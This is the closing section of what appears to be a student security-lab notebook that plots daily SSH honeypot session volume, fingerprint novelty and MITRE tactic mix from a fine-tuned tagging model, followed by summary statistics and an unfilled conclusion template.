Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task4_plots/daily_volume_and_novelty.png




Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task4_plots/daily_tactic_volume_and_composition.png




In [116]:
# --- Additional temporal analysis plots (volume, novelty, and tactic mix) ---
daily_session_volume = inference_df.groupby(inference_df['date'].dt.floor('D')).size().rename('sessions')
daily_new_fingerprints = (
    fingerprint_first_seen
    .assign(first_seen_day=pd.to_datetime(fingerprint_first_seen['first_seen']).dt.floor('D'))
    .groupby('first_seen_day')
    .size()
    .rename('new_fingerprints')
)

timeline_df = pd.concat([daily_session_volume, daily_new_fingerprints], axis=1).fillna(0).sort_index()
timeline_df['new_fp_ratio'] = np.where(
    timeline_df['sessions'] > 0,
    timeline_df['new_fingerprints'] / timeline_df['sessions'],
    0.0,
 )

fig, axs = plt.subplots(2, 1, figsize=(14, 9), sharex=True)

axs[0].plot(timeline_df.index, timeline_df['sessions'], color='#2E86C1', linewidth=2)
axs[0].set_ylabel('Sessions per day', fontsize=11)
axs[0].set_title('Daily Session Volume', fontsize=13)
axs[0].grid(True, linestyle='--', alpha=0.6)

axs[1].plot(timeline_df.index, timeline_df['new_fingerprints'], color='#E67E22', linewidth=2, label='New fingerprints/day')
ax_ratio = axs[1].twinx()
ax_ratio.plot(
    timeline_df.index,
    timeline_df['new_fp_ratio'] * 100,
    color='#8E44AD',
    linewidth=1.8,
    linestyle='--',
    label='Novelty ratio (%)',
)
axs[1].set_ylabel('New fingerprints/day', fontsize=11)
ax_ratio.set_ylabel('Novelty ratio (%)', fontsize=11)
axs[1].set_title('Fingerprint Novelty Dynamics', fontsize=13)
axs[1].grid(True, linestyle='--', alpha=0.6)
axs[1].tick_params(axis='x', rotation=45)

lines_left, labels_left = axs[1].get_legend_handles_labels()
lines_right, labels_right = ax_ratio.get_legend_handles_labels()
axs[1].legend(lines_left + lines_right, labels_left + labels_right, loc='upper left', fontsize=9)

plt.tight_layout()
save_plot(fig, 'daily_volume_and_novelty', path=save_dir)
plt.show()

# Daily tactic mix
daily_tactics = inference_df[['date', 'predictions']].explode('predictions').dropna()
daily_tactics['date_day'] = pd.to_datetime(daily_tactics['date']).dt.floor('D')

daily_tactic_counts = (
    daily_tactics.groupby(['date_day', 'predictions'])
    .size()
    .unstack(fill_value=0)
    .sort_index()
)

top_tactics = daily_tactic_counts.sum().sort_values(ascending=False).head(5).index.tolist()
if len(daily_tactic_counts.columns) > len(top_tactics):
    tactic_plot_df = daily_tactic_counts[top_tactics].copy()
    tactic_plot_df['Other'] = daily_tactic_counts.drop(columns=top_tactics).sum(axis=1)
else:
    tactic_plot_df = daily_tactic_counts[top_tactics].copy()

tactic_share_df = tactic_plot_df.div(tactic_plot_df.sum(axis=1), axis=0).fillna(0)

fig, axs = plt.subplots(2, 1, figsize=(14, 10), sharex=True)
tactic_plot_df.plot.area(ax=axs[0], alpha=0.85, linewidth=0)
axs[0].set_ylabel('Token count', fontsize=11)
axs[0].set_title('Daily MITRE Tactic Volume (Top classes)', fontsize=13)
axs[0].grid(True, linestyle='--', alpha=0.6)
axs[0].legend(loc='upper left', ncol=3, fontsize=8)

tactic_share_df.plot.area(ax=axs[1], alpha=0.85, linewidth=0)
axs[1].set_ylabel('Share of daily tokens', fontsize=11)
axs[1].set_title('Daily MITRE Tactic Composition', fontsize=13)
axs[1].grid(True, linestyle='--', alpha=0.6)
axs[1].legend(loc='upper left', ncol=3, fontsize=8)
axs[1].tick_params(axis='x', rotation=45)

plt.tight_layout()
save_plot(fig, 'daily_tactic_volume_and_composition', path=save_dir)
plt.show()

In [117]:
# --- Summary Statistics ---
date_span_days = (inference_df['date'].max() - inference_df['date'].min()).days + 1 if len(inference_df) else 0

print("\nInference Summary Statistics:")
print("=" * 60)
print(f"Total sessions analyzed: {len(inference_df):,}")
print(f"Unique fingerprints: {inference_df['fingerprint_str'].nunique():,}")
print(f"Date range: {inference_df['date'].min()} to {inference_df['date'].max()}")
print(f"Observed time span: {date_span_days:,} days")
print(f"Detected campaign spikes: {len(potential_campaigns):,}")
print(f"\nMost common fingerprint appears in {fingerprint_counts.iloc[0]:,} sessions")
print(f"Singleton fingerprints: {(fingerprint_counts == 1).sum():,}")


Inference Summary Statistics:
Total sessions analyzed: 174,262
Unique fingerprints: 13,164
Date range: 2019-09-01 00:00:10.493808 to 2019-12-30 23:56:54.297736
Observed time span: 121 days
Detected campaign spikes: 7

Most common fingerprint appears in 15,357 sessions
Singleton fingerprints: 8,877


---

## Conclusion

*Your final analysis and conclusions here*

**Summary:**
- Task 1: Characterized the SSH session dataset, analyzing tag distributions and session lengths
- Task 2: Compared BERT and UnixCoder tokenization strategies, optimized with word truncation
- Task 3: Fine-tuned multiple models (BERT Pretrained, Naked BERT, UnixCoder, UnixCoder Frozen Last2+Head, UnixCoder Frozen Head Only) for NER
- Task 4: Applied the best model for inference on cyberlab data, detecting attack fingerprints

**Key Findings:**
- *Add your observations about model performance*
- *Add your observations about tokenization efficiency*
- *Add your observations about detected attack campaigns*
